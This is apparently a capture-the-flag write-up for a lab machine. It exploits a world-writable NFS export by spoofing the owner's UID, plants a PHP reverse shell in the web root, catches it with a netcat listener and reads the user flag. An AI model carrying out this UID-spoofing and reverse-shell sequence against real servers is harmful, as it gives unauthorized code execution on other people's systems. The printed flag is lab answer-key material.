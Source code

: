 1) To know **which folder** has the server **available** to mount you an ask it using:
```
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

----------
## /home/ross

1) I’ll mount the `/home/ross` share using `mount`:
```
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt
```

---------------
## /var/www/html

1) I’ll unmount the home directory and mount the web root:
```
┌──(kali㉿kali)-[/]
└─$ sudo umount /mnt 
┌──(kali㉿kali)-[/]
└─$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt
```

------------

## NFS Imitation && Reverse Shell

1) I’ll create a hacker user on my machine:
```
┌──(kali㉿kali)-[/mnt]
└─$ sudo useradd hacker
```

2) This user will by default have a UID/GID of the highest ID found in /etc/passwd , plus one. Usually this will be 1001 . To change the UID, we run the following command::
```
┌──(kali㉿kali)-[/mnt]
└─$ sudo usermod -u 2017 hacker
```

3) In theory, we can leave the GID as is, but for complecity's sake we can change it as follows, using groupmod :
```
┌──(kali㉿kali)-[/mnt]
└─$ sudo groupmod -g 2017 hacker
```

4) Having created our impostor user, we should now be able to interact with the share mounted on /mnt/ , namely /var/www/html , by using su to run commands as hacker:
```
┌──(kali㉿kali)-[/]
└─$ sudo su hacker              
$ ls -l /mnt
total 44
drwxr-xr-x 2 hacker www-data  4096 Dec 27 16:40 css
drwxr-xr-x 2 hacker www-data  4096 Dec 27 16:40 images
-rw-r----- 1 hacker www-data 32532 Dec 27 16:40 index.html
drwxr-xr-x 2 hacker www-data  4096 Dec 27 16:40 js
```

5) Having assumed the UID/GID of 2017, we have successfully impersonated the directory's owner and can now, under the assumption that the share has been configured to allow rw privileges, write arbitrary files to that directory. We now add a reverse php shell, and save it as reverseshell.php in the webserver's filesystem. While on one shell we set up a netcat listener, all that's left to do is curl the script we just added to the webserver:
```
$ nano reverseshell.php 
```

6) I open a listening port with netcat:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234               
listening on [any] 1234 ..
```

7) I make the system run the shell, making an http request:
```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.11.191/reverseshell.php  
```
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234               
listening on [any] 1234 ...
connect to [10.10.14.209] from (UNKNOWN) [10.10.11.191] 58502
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 21:49:19 up 16:38,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               05:11   16:38m  1:37   0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
```

8) I read the user.txt:
```
$ cat /home/alex/user.txt
c581edb94cc066263d478be564ddb61d
```

9) We made some assumptions about the file-share to get to this point. For one, as mentioned, we assumed that the directory was configured with the rw tag enabled. That means that we have both read- and write  permissions on the share (the actual directory's permissions notwithstanding). If we cat the NFS  configuration file, namely /etc/exports , we can take a closer look at the shares' settings.
```
$ cat /etc/exports  
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/www/html *(rw,sync,root_squash)
/home/ross *(sync,root_squash)
```